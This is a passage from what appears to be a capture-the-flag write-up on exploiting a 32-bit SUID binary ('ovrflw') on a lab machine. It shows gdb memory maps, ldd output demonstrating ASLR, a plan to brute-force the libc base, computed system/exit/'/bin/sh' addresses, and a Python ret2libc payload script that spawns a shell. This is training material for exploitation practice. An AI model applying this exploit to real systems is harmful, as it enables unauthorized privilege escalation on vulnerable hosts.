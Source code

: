 ```
        0xb75c7000 0xb75c8000     0x1000        0x0
        0xb75c8000 0xb7772000   0x1aa000        0x0 /lib/i386-linux-gnu/libc-2.19.so
        0xb7772000 0xb7774000     0x2000   0x1aa000 /lib/i386-linux-gnu/libc-2.19.so
        0xb7774000 0xb7775000     0x1000   0x1ac000 /lib/i386-linux-gnu/libc-2.19.so
        0xb7775000 0xb7778000     0x3000        0x0
        0xb777e000 0xb7780000     0x2000        0x0
        0xb7780000 0xb7782000     0x2000        0x0 [vvar]
        0xb7782000 0xb7784000     0x2000        0x0 [vdso]
        0xb7784000 0xb77a4000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.19.so
        0xb77a4000 0xb77a5000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.19.so
        0xb77a5000 0xb77a6000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.19.so
        0xbfa79000 0xbfa9a000    0x21000        0x0 [stack]
(gdb) find 0xb75c8000,0xb7772000,"/bin/sh"
0xb772abac
1 pattern found.
(gdb) x/s 0xb772abac
0xb772abac:     "/bin/sh"
```

At this point, we can remap the exact base address by checking where `/lib/i386-linux-gnu/libc.so.6` is located with the following:

```
data@october:/dev/shm$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb773e000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7584000)
        /lib/ld-linux.so.2 (0x800eb000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb7754000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb759a000)
        /lib/ld-linux.so.2 (0x800dc000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb77cf000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7615000)
        /lib/ld-linux.so.2 (0x800f5000)
```

Notice how the base address of `/lib/i386-linux-gnu/libc.so.6` changes each time. This is because ASLR is enabled.
On 32-bit machines, the chance of guessing the base address is 1/4096 which can be brute-forced very quickly.
Therefore, the base address of `/lib/i386-linux-gnu/libc.so.6` can be guessed with enough attempts.
For this example, I will remap the absolute addresses of `exit()` and `system()` like the following:

```
exit    = 0xb7584000+0x00033260 = 0xb75b7260
system  = 0xb7584000+0x00040310 = 0xb75c4310
/bin/sh = 0xb7584000+0x00162bac = 0xb76e6bac
```

I then updated `exploit.py` like the following:

```python
import struct
import sys

buf_len = 112
system_addr = struct.pack("<I", 0xb75c4310)
exit_ret_addr = struct.pack("<I", 0xb75b7260)
binsh_addr = struct.pack("<I", 0xb76e6bac)
buf = b"\x90" * buf_len
buf += system_addr + exit_ret_addr + binsh_addr

sys.stdout.buffer.write(buf)
```
